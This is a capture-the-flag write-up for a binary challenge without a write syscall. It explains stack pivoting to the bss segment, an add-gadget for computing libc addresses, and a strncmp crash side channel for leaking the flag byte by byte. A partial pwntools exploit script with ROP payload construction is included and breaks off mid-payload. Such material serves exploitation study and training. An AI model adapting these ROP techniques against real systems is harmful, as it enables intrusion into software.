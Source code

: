 The first thing is that without the write system call, we can't do the leak, but we can use this gadget to get the libc address we want:

```c
.text:00000000004005E8                 add     [rbp-3Dh], ebx
.text:00000000004005EB                 nop     dword ptr [rax+rax+00h]
```

rbp and ebx are both controled

We can use the  stack pivoting  method to migrate the stack to the bss segment, then call `__libc_start_main` , the bss segment will remain libc address after it. Then use the above gadget, we can arbitrary call

The problem now is how to leak the flag, and one way I give here is to use the strncmp function to compare the flag one by one

The specific ideas are as follows

- open and read flag into bss segment first.
- read  characters we want to brute force into the end of the BSS segment (0x601FFFF)
- Then call strncmp(flag,0x601FFFF,2), if we enter the same characters with flag, the program will `segment fault` and we will received an EOFError , because strncmp is trying to read the contents at 0x602000
- If the comparison in previous step is incorrect, the program can continue to run

exp：

```python
from pwn import *
import string
context.arch='amd64'

def ret_csu(func,arg1=0,arg2=0,arg3=0):
	payload = ''
	payload += p64(0)+p64(1)+p64(func)
	payload += p64(arg1)+p64(arg2)+p64(arg3)+p64(0x000000000400750)+p64(0)
	return payload
def main(host,port=2333):
	# global p
	# if host:
		# p = remote(host,port)
	# else:
		# p = process("./no_write")
		# gdb.attach(p,"b* 0x0000000004006E6")
	# 0x0000000000400773 : pop rdi ; ret
	# 0x0000000000400771 : pop rsi ; pop r15 ; ret
	# .text:0000000000400544                 call    cs:__libc_start_main_ptr
	
	# .text:00000000004005E8                 add     [rbp-3Dh], ebx
	# .text:00000000004005EB                 nop     dword ptr [rax+rax+00h]
	# .text:00000000004005F0                 rep retn
	charset = '}{_'+string.digits+string.letters
	flag = ''
	for i in range(0x30):
		for j in charset:
			try:
				p = remote(host,6000)
				pppppp_ret = 0x00000000040076A
				read_got = 0x000000000600FD8
				call_libc_start_main = 0x000000000400544
				p_rdi = 0x0000000000400773
				p_rsi_r15 = 0x0000000000400771
				# 03:0018|	0x601318 -> 0x7f6352629d80 (initial) <-0x0
				offset = 0x267870 #initial - __strncmp_sse42
				readn = 0x0000000004006BF
				leave_tet = 0x00000000040070B
				payload = "A"*0x18+p64(pppppp_ret)+ret_csu(read_got,0,0x601350,0x400)
```